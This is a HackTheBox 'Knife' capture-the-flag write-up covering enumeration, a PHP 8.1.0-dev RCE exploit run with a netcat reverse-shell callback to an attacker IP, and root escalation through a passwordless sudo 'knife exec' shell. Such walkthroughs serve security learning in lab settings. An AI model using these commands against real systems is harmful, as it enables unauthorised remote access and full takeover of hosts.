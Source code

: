# HackTheBox - Knife

## Introduction
This box was an easy box where you are needed to exploit popular vulnerability in `PHP 8.0.1-dev` version for the user flag whereas you are required to exploit the application named `knife` to access root privileges. With that being said, let's get started.

### 1. Enumeration
When i joined the box, i was given the ip address of box as `10.10.10.242`. As always, i started with my `nmap` scan
```
> nmap -sC -sV -oA 10.10.10.242 -oN nmap_initial
```

![](images/2021-07-21-09-07-00.png)

but the scan didn't provide us with enough information. As we can see a http server was running on *port 80*, i went to check on the website and found out that the website contains a single page and not much information for us to proceed further

![](images/2021-07-21-09-09-05.png)

Looking at the developer tools, we can see the web server was using `PHP 8.1.0-dev`.

![](images/2021-07-21-09-12-39.png)

### 2. Payload
There has been a recent RCE exploit for this version of php. I have attached the exploit i used [here](payload/rev_shell.py). I quickly fired up my **netcat** listener 
```
> nc -vnlp 8888
```

Then i executed my payload 
```
> sudo python3 rev_shell.py http://10.10.10.242/ 10.10.14.8 8888
```
which responded us with a sweet reverse shell.

![](images/2021-07-21-09-19-35.png)

We can easily find the user flag in the home directory of user **james**.

### 3. Privileges escalation
As always, first thing first

![](images/2021-07-21-09-22-15.png)

we can see that there is a tool named `knife` that the user can use with escalated privileges without `sudo` password. Looking at a little bit of help section of the tool, we see that we can run any command with `--exec` flags set. So i crafted a payload
```
> sudo knife exec --exec "exec '/bin/sh -i'"
```

![](images/2021-07-21-09-25-21.png)

and we have a shell with root privileges. We can get the root flag from `/root` directory. 

### Conclusion
> This was a super easy box.